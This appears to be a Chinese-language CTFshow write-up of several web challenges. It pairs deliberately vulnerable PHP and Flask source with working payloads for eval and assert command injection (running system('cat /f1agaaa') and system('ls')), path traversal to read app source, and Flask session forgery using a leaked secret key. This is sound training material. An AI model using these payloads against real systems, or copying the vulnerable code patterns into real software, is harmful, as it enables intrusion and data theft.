 ## Web
### Web签到

```php
<?php  
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-11-10 17:20:38
# @Last Modified by:   h1xa
# @Last Modified time: 2022-11-11 09:38:59
# @email: h1xa@ctfer.com
# @link: https://ctfer.com  
*/

error_reporting(0);
highlight_file(__FILE__);
  
eval($_REQUEST[$_GET[$_POST[$_COOKIE['CTFshow-QQ群:']]]][6][0][7][5][8][0][9][4][4]);
```

payload:
- GET: `?g=r&r[6][0][7][5][8][0][9][4][4]=system("cat /f1agaaa");`
- POST: `p=g`
- Cookie: `CTFshow-QQ群:=p`

![](attachments/Pasted%20image%2020230405093908.png)


### web2 c0me_t0_s1gn

![](attachments/Pasted%20image%2020230405094027.png)

查看源代码

![](attachments/Pasted%20image%2020230405094540.png)

半截flag  `ctfshow{We1c0me_`

看起来js函数比较复杂，但是会发现有这样一个函数，直觉上来讲，引用了几乎所有的函数和加密相关的key，结合前面的控制台的提示，在控制台尝试运行

![](attachments/Pasted%20image%2020230405094840.png)

事实上进控制台就有提示了

![](attachments/Pasted%20image%2020230405095109.png)

flag： `ctfshow{We1c0me_t0_jo1n_u3_!}`

### 我的眼里只有$

```php
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2022-11-10 17:20:38  
# @Last Modified by:   h1xa  
# @Last Modified time: 2022-11-11 08:21:54  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
  
*/  
  
  
error_reporting(0);  
extract($_POST);  
eval($$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$_);  
highlight_file(__FILE__);
```

这个形式的话想要传参就要造一层一层的参数，参数越来越长，但是相同位置需要一样

```PHP
_=__&__=___&___=____&____=_____&_____=______&______=_______&_______=________&________=_________&_________=__________&__________=___________&___________=____________&____________=_____________&_____________=______________&______________=_______________&_______________=________________&________________=_________________&_________________=__________________&__________________=___________________&___________________=____________________&____________________=_____________________&_____________________=______________________&______________________=_______________________&_______________________=________________________&________________________=_________________________&_________________________=__________________________&__________________________=___________________________&___________________________=____________________________&____________________________=_____________________________&_____________________________=______________________________&______________________________=_______________________________&_______________________________=________________________________&________________________________=_________________________________&_________________________________=__________________________________&__________________________________=___________________________________&___________________________________=____________________________________&____________________________________=eval($_GET[1]);
```

![](attachments/Pasted%20image%2020230405101507.png)


### 抽老婆
抽老婆之后有download感觉这里可以做文件读取

![](attachments/Pasted%20image%2020230405101629.png)

结合session

![](attachments/Pasted%20image%2020230405102152.png)

能够看的出来是flask的session，感觉考点可能是session伪造

先读/app/app.py,出现报错，发现是路径不对

![](attachments/Pasted%20image%2020230405102351.png)

目录穿越 `/download?file=../../../../../app/app.py`

```python
# !/usr/bin/env python
# -*-coding:utf-8 -*-

"""
# File       : app.py
# Time       ：2022/11/07 09:16
# Author     ：g4_simon
# version    ：python 3.9.7
# Description：抽老婆，哇偶~
"""

from flask import *
import os
import random
from flag import flag

#初始化全局变量
app = Flask(__name__)
app.config['SECRET_KEY'] = 'tanji_is_A_boy_Yooooooooooooooooooooo!'

@app.route('/', methods=['GET'])
def index():  
    return render_template('index.html')


@app.route('/getwifi', methods=['GET'])
def getwifi():
    session['isadmin']=False
    wifi=random.choice(os.listdir('static/img'))
    session['current_wifi']=wifi
    return render_template('getwifi.html',wifi=wifi)



@app.route('/download', methods=['GET'])
def source(): 
    filename=request.args.get('file')
    if 'flag' in filename:
        return jsonify({"msg":"你想干什么？"})
    else:
        return send_file('static/img/'+filename,as_attachment=True)


@app.route('/secret_path_U_never_know',methods=['GET'])
def getflag():
    if session['isadmin']:
        return jsonify({"msg":flag})
    else:
        return jsonify({"msg":"你怎么知道这个路径的？不过还好我有身份验证"})



if __name__ == '__main__':
    app.run(host='0.0.0.0',port=80,debug=True)

```

解密
![](attachments/Pasted%20image%2020230405103208.png)

伪造admin

![](attachments/Pasted%20image%2020230405103559.png)

访问路径

![](attachments/Pasted%20image%2020230405103539.png)

### 一言既出
```php
<?php  
highlight_file(__FILE__);   
include "flag.php";    
if (isset($_GET['num'])){  
    if ($_GET['num'] == 114514){        
	    assert("intval($_GET[num])==1919810") or die("一言既出，驷马难追!");  
        echo $flag;  
    }   
}
```

其实assert中是一个字符串只需要使assert为true或者在assert中完成命令执行就可以

#### 命令执行
`?num=114514)==1 or system('ls');//`

![](attachments/Pasted%20image%2020230405105019.png)

#### 截断
`?num=114514);(1919810`

![](attachments/Pasted%20image%2020230405105216.png)

### 驷马难追
```php
<?php  
highlight_file(__FILE__);   
include "flag.php";    
if (isset($_GET['num'])){  
     if ($_GET['num'] == 114514 && check($_GET['num'])){              
	     assert("intval($_GET[num])==1919810") or die("一言既出，驷马难追!");  
              echo $flag;  
     }   
}   
  
function check($str){  
  return !preg_match("/[a-z]|\;|\(|\)/",$str);  
}
```

在上一题的基础上加了check，用+法来绕过

payload: `?num=114514%2b1805296`

![](attachments/Pasted%20image%2020230405105630.png)